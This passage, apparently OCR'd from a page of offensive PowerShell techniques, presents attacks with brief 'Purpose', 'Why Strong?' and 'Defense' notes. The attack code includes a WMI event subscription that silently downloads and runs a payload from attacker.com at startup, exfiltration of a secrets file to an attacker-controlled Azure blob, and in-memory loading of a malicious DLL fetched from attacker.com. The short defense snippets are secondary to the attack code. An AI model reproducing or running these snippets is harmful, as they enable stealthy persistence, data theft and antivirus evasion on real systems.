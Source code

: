 ```powershell  
  Name = 'StartupConsumer'  
  CommandLineTemplate = "powershell.exe -nop -w hidden -c `"iex (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')`""  
}  
$consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $consumerArgs  

New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{  
  Filter = $filter  
  Consumer = $consumer  
}  
```  
- **Purpose**: Executes payload on system events (e.g., startup) without writing to disk.  
- **Why Strong?**: WMI is trusted and often unmonitored.  

**Defense**:  
```powershell  
# Hunt for malicious WMI subscriptions  
Get-CimInstance -Namespace root/subscription -ClassName __EventFilter  
Get-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer  
# Block WMI entirely if unused  
Set-NetFirewallRule -DisplayGroup "Windows Management Instrumentation (WMI)" -Enabled False -Action Block  
```  

---

#### **2. AzureAD-Based C2 (Living-off-Cloud)**  
```powershell  
# Exfiltrate data via Azure Blob Storage  
$storageContext = New-AzStorageContext -ConnectionString "DefaultEndpointsProtocol=https;AccountName=attackeraccount;AccountKey=..."  
Set-AzStorageBlobContent -File C:\secrets.txt -Container "exfil" -Blob "data.txt" -Context $storageContext  
```  
- **Purpose**: Uses legitimate cloud services for stealthy data exfiltration.  
- **Why Strong?**: Blends with normal cloud traffic.  

**Defense**:  
```powershell  
# Monitor AzureAD activity (requires Defender for Cloud Apps)  
Get-AzStorageBlob -Container "exfil" -Context $storageContext | Where-Object { $_.Name -match "secrets" }  
# Block unauthorized cloud APIs  
New-NetFirewallRule -DisplayName "Block Azure Storage API" -Direction Outbound -Action Block -Protocol TCP -RemotePort 443 -RemoteAddress "*.blob.core.windows.net"  
```  

---

#### **3. Reflective DLL Injection via .NET**  
```powershell  
# Load malicious DLL directly into memory  
$bytes = (Invoke-WebRequest -Uri "http://attacker.com/malware.dll" -UseBasicParsing).Content  
$assembly = [System.Reflection.Assembly]::Load($bytes)  
$assembly.EntryPoint.Invoke($null, $null)  
```  
- **Purpose**: Fileless execution evades disk-based AV scans.  
- **Why Strong?**: No process spawning (runs in PowerShell’s memory).  
